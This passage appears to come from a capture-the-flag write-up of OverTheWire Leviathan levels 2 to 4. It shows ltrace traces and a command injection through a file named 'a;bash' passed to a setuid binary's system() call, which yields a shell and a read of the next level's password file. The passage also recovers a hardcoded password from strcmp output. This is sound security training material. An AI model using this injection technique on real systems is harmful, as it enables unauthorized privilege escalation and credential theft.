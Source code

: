 But that was just for your culture. What if I told you we can escalate our privileges to leviathan3 ?

I'll show you how :

First let's create a dummy file to see the rest of the logic if we can access the file :

```
leviathan2@leviathan:~$ echo "ok" > /tmp/testfile
leviathan2@leviathan:~$ ltrace ./printfile /tmp/testfile
__libc_start_main(0x565556c0, 2, 0xffffd714, 0x565557b0 <unfinished ...>
access("/tmp/testfile", 4)                                                                                                                        = 0
snprintf("/bin/cat /tmp/testfile", 511, "/bin/cat %s", "/tmp/testfile")                                                                           = 22
<REDACTED>                                                                                                                         = 0
system("/bin/cat /tmp/testfile"ok
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                            = 0
+++ exited (status 0) +++
```

The input is not properly validated. We can inject a command into the `system` function call.
Let's go into a temp directory : `cd $(mktemp -d)`

```
leviathan2@leviathan:/tmp/tmp.bOxmqBB3UM$ touch "a;bash"
leviathan2@leviathan:/tmp/tmp.bOxmqBB3UM$ ~/printfile a\;bash 
/bin/cat: a: Permission denied
leviathan3@leviathan:/tmp/tmp.bOxmqBB3UM$ whoami
leviathan3
leviathan3@leviathan:/tmp/tmp.bOxmqBB3UM$ cat /etc/leviathan_pass/leviathan3
<CENSORED>
```

We created a file named "a;bash" so the argument to the `system` function would be : `system("/bin/cat a;bash")` and so we get a shell as leviathan3 !

# Level 3 => 4

This one is waaay easier than the previous.

`ssh -p 2223 leviathan3@leviathan.labs.overthewire.org` with the password found.

```
leviathan3@leviathan:~$ ls -la
total 32
drwxr-xr-x  2 root       root        4096 May 10 18:27 .
drwxr-xr-x 10 root       root        4096 May 10 18:27 ..
-rw-r--r--  1 root       root         220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root        3526 May 15  2017 .bashrc
-rw-r--r--  1 root       root         675 May 15  2017 .profile
-r-sr-x---  1 leviathan4 leviathan3 10488 May 10 18:27 level3
leviathan3@leviathan:~$ ltrace ./level3 
__libc_start_main(0x565557b4, 1, 0xffffd754, 0x56555870 <unfinished ...>
strcmp("h0no33", "kakaka")                                                                                                                        = -1
printf("Enter the password> ")                                                                                                                    = 20
fgets(Enter the password> test
"test\n", 256, 0xf7fc55a0)                                                                                                                  = 0xffffd560
strcmp("test\n", "snlprintf\n")                                                                                                                   = 1
```